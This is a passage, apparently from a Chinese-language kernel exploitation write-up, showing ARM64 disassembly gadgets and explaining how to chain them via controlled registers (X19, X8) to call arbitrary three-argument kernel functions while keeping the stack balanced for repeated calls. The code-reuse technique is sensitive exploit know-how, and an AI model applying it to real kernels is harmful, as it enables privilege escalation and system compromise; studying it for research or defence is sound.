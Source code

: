 ```clike
```

让其先跳入下面的代码：

```clike
.kernel:FFFFFF8008707744                 LDRB            W8, [X0,#0x311]
.kernel:FFFFFF8008707748                 MOV             X19, X0
.kernel:FFFFFF800870774C                 ADD             X29, SP, #0x10
.kernel:FFFFFF8008707750                 CBZ             W8, loc_FFFFFF8008707774
.kernel:FFFFFF8008707754                 LDR             X8, [X19,#0x338]
.kernel:FFFFFF8008707758                 CBZ             X8, loc_FFFFFF8008707764
.kernel:FFFFFF800870775C                 ADD             X0, X19, #0x318
.kernel:FFFFFF8008707760                 BLR             X8
```

在这段代码中，我们的目的是控制`X19`指向`X0`，因为X0是我们可控的，我们不用担心`BLR X8`返回执行后面，因为我们可以再调用一次`BLR`来将X30覆盖。我们控制X8，让其先跳入下面的代码：

```clike
.kernel:FFFFFF80080DB3F8                 LDR             X8, [X19,#0xC8]
.kernel:FFFFFF80080DB3FC                 MOV             X0, X22
.kernel:FFFFFF80080DB400                 MOV             X1, X21
.kernel:FFFFFF80080DB404                 MOV             X2, X20
.kernel:FFFFFF80080DB408                 BLR             X8
.kernel:FFFFFF80080DB40C                 LDR             X8, [X19,#0xD0]
.kernel:FFFFFF80080DB410                 MOV             X20, X0
.kernel:FFFFFF80080DB414                 MOV             X0, X19
.kernel:FFFFFF80080DB418                 BLR             X8
.kernel:FFFFFF80080DB41C                 SXTW            X0, W20
.kernel:FFFFFF80080DB420
.kernel:FFFFFF80080DB420 loc_FFFFFF80080DB420                    ; CODE XREF: handle_128+118↑j
.kernel:FFFFFF80080DB420                 LDP             X29, X30, [SP,#0x40+var_s0]
.kernel:FFFFFF80080DB424                 LDP             X20, X19, [SP,#0x40+var_10]
.kernel:FFFFFF80080DB428                 LDP             X22, X21, [SP,#0x40+var_20]
.kernel:FFFFFF80080DB42C                 LDP             X24, X23, [SP,#0x40+var_30]
.kernel:FFFFFF80080DB430                 LDR             X25, [SP+0x40+var_40],#0x50
.kernel:FFFFFF80080DB434                 RET
```

在这段代码中，由于X19可控，我们可以调用3个参数的任意函数了，自始至终，我们的`栈没有发生过调整`，由于漏洞发生的位置栈尾部是这样的：

```clike
.............
.............
.text:FFFFFF80080DB420 loc_FFFFFF80080DB420                    ; CODE XREF: handle_128+118↑j
.text:FFFFFF80080DB420                 LDP             X29, X30, [SP,#0x40+var_s0]
.text:FFFFFF80080DB424                 LDP             X20, X19, [SP,#0x40+var_10]
.text:FFFFFF80080DB428                 LDP             X22, X21, [SP,#0x40+var_20]
.text:FFFFFF80080DB42C                 LDP             X24, X23, [SP,#0x40+var_30]
.text:FFFFFF80080DB430                 LDR             X25, [SP+0x40+var_40],#0x50
.text:FFFFFF80080DB434                 RET
```

栈尾部跟我们的gadgets一摸一样，这意味着我们的gadgets在执行到`RET`时可以直接返回到漏洞发生的函数的上层，栈平衡了。也就是我们能够执行任意的一个函数，控制3个参数，同时栈能够恢复，可以让程序继续保持正常的运行状态。这样我们就可以进行多次的任意函数调用。
